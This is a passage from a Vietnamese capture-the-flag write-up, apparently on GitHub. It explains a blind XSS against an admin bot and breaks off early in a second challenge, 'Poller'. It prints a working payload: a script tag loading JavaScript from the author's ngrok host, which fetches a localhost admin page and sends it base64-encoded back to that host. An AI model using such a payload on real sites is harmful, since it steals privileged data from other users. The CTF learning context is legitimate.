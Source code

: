 ### Solution

#### Review

![7](https://user-images.githubusercontent.com/71699412/167263496-45a82ac5-4f98-4163-84f3-c743c93d5907.jpg)


- Chall cho nhập 1 đoạn text, gửi thì redirect đến page chứa ảnh áo kèm text vừa gửi.

- Truy cập đường dẫn admin thì nó chỉ cho localhost truy cập

#### Exploit

Ngồi test cả buổi cứ tưởng SSRF, Command Injection, RCE nhưng chẳng thèm thử XSS, và đúng thế, website dính lỗi XSS ở phía admin khi text ta gửi sẽ được 1 con bot go to để xem, đây là XSS blind, chơi CTF lần sau hãy chú ý nhiều hơn.

Ta gửi đoạn script sau, việc trỏ đến `a.js` giúp ta edit payload dễ hơn:
```html
<script src="http://a047-42-112-56-248.ngrok.io/a.js"></script>
```
file `a.js`:
```js
var xhr = new XMLHttpRequest;
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function() {
	var flag = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://a047-42-112-56-248.ngrok.io?flag=" + flag);
	exit.send();
};

xhr.send();
```
Đơn giản là request `localhost/admin` rồi send responseText đến server mình host thôi, nhận được response: 

![Screenshot 2022-05-07 233532](https://user-images.githubusercontent.com/71699412/167263527-e2b079d7-7f05-46e5-9f10-54ece4583072.jpg)

Decode base64 ta được flag.

Hi admin! here is your flag: `flag{461e2452088eb397b6138a5934af6231}`

## Poller

### Solution

#### Review

![theme_poller](https://user-images.githubusercontent.com/71699412/167298257-bf1abc96-05fb-4437-a2b5-2a23dcc696b7.jpg)

Chall cho 1 website có các chứng năng đăng kí, đăng nhập. Sau khi login thì được redirect vào page để bình chọn poll, không có gì nhiều cho đến khi inspect source code ta tìm được đây là 1 open source code project trên github.
